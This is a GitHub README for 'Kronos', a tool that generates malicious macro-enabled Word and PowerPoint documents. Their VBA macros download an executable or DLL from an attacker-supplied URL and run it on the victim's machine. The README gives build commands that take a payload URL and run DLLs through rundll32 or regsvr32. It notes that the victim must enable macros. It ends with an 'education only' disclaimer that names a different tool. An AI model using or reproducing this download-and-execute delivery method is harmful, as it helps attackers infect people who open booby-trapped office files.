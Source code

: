 ![!\[Alt text\](<>)](<2023-12-24 10_34_53-Photos.png>)


Greetings
--------------------------

Kronos is a doc and ppt exploitation tool to deliver Payloads via Vba macros by downloding the PE from a URL 

it generates a docm or pptm , if macros disabled by default ,victim needs to enable macros

for an exe use :

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE 'name.exe'

for a dll  use : 

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE " {rundll32 or regsvr32} {name.dll} ,{function if needed} "

setup:
------------

git clone https://github.com/ELMERIKH/Kronos

pip install -r requirements.txt

python3 Kronos.py

DISCLAIMER :
----------------------------------

ME The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided. ME The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of Keres. By using Keres or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Keres is for EDUCATION and/or RESEARCH purposes ONLY.

